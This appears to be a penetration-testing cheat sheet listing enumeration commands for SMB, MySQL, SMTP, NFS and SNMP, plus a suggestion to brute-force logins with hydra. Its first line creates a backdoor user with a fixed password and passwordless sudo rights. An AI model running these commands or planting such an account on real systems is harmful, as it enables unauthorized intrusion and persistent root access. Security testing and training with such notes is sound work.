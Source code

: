 ```bash
useradd ali && (echo -e 'Mobin@\nMobin@' | passwd ali) && (echo "ali ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers)
```

# service ✅📚
## SMB ✅
```bash
enum4linux -a
smbclient -L //<ip>/ -p <port>
smbget -R smb://<ip>/<share>
smbclient //<ip>/<share dir> 
smbclient //<ip>/<share dir> -p <port>
smbclient //<ip>/<share dir> -U Anonymous -p <port>
```
## MySQL ✅
### *enumeration ✡️
```bash
mysql -u root
mysql -u root -p
mysql -h <Hostname> -u root
```
### MySQL commands ✡️
```mysql
show databases;
use <database>;
connect <database>;
show tables;
describe <table_name>;
show columns from <table>;
SELECT VERSION();
select * from <table>;

SELECT * FROM <table_name> WHERE <column_name> LIKE '%search_string%';
```
## SMTP ✅
```bash
telnet INSERTIPADDRESS 25
nc -nvv INSERTIPADDRESS 25
smtp-user-enum -M <MODE> -u <USER> -t <IP>
nmap <ip> -p <port> -vv -A --script "smtp-*" -oN namp.txt
After finding the username, we will bruteforce <ssh|smb|ftp|nfs> with hydra
```
## NFS ✅
```bash
showmount -e <IP> (print NFS shares)

mkdir /tmp/nfs
sudo mount -o rw -t nfs <IP>:<share> /tmp/nfs/ -nolock

cat /etc/exports (root_squash OR no_root_squash)
```
## SNMP ✅
```bash
snmpwalk -c public -v1 10.0.0.0
snmpwalk -v X -c public <IP> NET-SNMP-EXTEND-MIB::nsExtendOutputFull
snmpcheck -t 192.168.1.X 
snmpcheck -t 192.168.1.X -c public
```